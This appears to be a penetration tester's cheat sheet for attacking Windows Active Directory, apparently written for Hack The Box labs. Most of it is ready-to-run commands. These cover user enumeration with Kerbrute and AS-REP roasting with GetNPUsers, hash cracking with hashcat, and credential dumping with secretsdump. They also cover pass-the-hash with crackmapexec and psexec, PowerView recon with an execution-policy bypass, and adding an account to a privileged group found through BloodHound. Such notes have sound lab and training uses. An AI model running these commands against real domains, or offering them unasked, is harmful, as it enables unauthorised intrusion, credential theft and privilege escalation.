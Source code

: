 # Tools

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrato, guest,

```

## Impacket

#### GetADUsers

```bash
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

```bash
```

#### secretsdump

```bash
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## evil-winrm

#### Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

#### Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
sudo neo4j console
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added (graph line) and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```

